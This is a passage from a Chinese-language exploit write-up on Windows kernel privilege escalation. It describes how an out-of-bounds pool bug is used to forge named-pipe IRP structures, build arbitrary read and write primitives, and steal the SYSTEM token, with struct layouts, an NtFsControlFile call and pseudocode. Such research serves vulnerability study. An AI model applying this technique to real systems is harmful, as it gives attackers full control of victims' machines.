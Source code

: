4.再次触发 OOB 漏洞，构造任意读（arbitrary read）原语。被破坏的命名管道的内存布局如下：  
  
(   
https://github.com/vp777/Windows-Non-Paged-Pool-Overflow-Exploitation/tree/master?tab=readme-ov-file#complete-control-over-the-overflow-data  
 )  
  
```
DATA_QUEUE_ENTRY:
 NextEntry=whatever;
 Irp=Forged IRP Address;
 SecurityContext=ideally 0;
 EntryType=1;
 QuotaInEntry=ideally 0;
 DataSize=arbitrary read size;
 x=whatever;
IRP->SystemBuffer = arbitrary read address
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09c8a9n4P0qlRZ1CW1VOYwDE8VDf8opbMjykc94Xye0mseQnnSBfnuicX49b8gjrHa8icITVjmLEz9ibA/640?wx_fmt=png&from=appmsg "")  
  
  
5.通过调用 NtFsControlFile 将 IRP 包插入到命名管道中：  
  
```
NtFsControlFile(pipe, 0, 0, 0, &isb, 0x119FF8, buffer, 0x1000, 0, 0);
```  
  
  
然后，通过步骤 3 中泄露的数据获取 IRP 的地址。  
  
6.使用任意读原语获取系统令牌地址, 如下所示:  
  
```
CurThread_Irp = *(IRP + 0x20)
CurProcess = *(CurThread - IrpListOffset + ProcessOffset)
SystemProcess = Search active process list on CurProcess
SystemToken = *(SystemProcess + TokenOffset)
```  
  
  
7.再次触发 OOB 漏洞，构造任意写（arbitrary write）原语。由于 vp777 文档中的技术在程序退出后可能会导致崩溃或系统假死，这里采用了其他技术实现任意写（在后文详细解释）。  
  
8.将当前进程的令牌覆盖为 SYSTEM 令牌。  
  
9.利用步骤 3 中泄露的数据还原被破坏的命名管道数据。  
  
10.获得系统权限并享受管理员特权。  
###   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Too3Q2geBBcBtzlnEOEbnYytDiaUtSMle9N2JXiaRiaG1iahAiaCMAvAOdInNLfkSLJ9IicblOVzkYB0aFKenqMFnG5A/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/tFQwTxxFG2WZicsgibWiaiatIvLkGwcF7yKwmia6CtDcg293ZoVgf8ictCrVsJQjzkrByb4Jp8CWz1ozWUnJd7NKtFlA/640?from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ucV2Dc6xtKux3TiaYo3RnRpibIibjuibibZlraHIls0vqHyLJvRicNMFZa4hR5emcDiaSkBwrPgkKOyMUEQqTzjJPceDg/640?from=appmsg "")  
  
任意写入  
  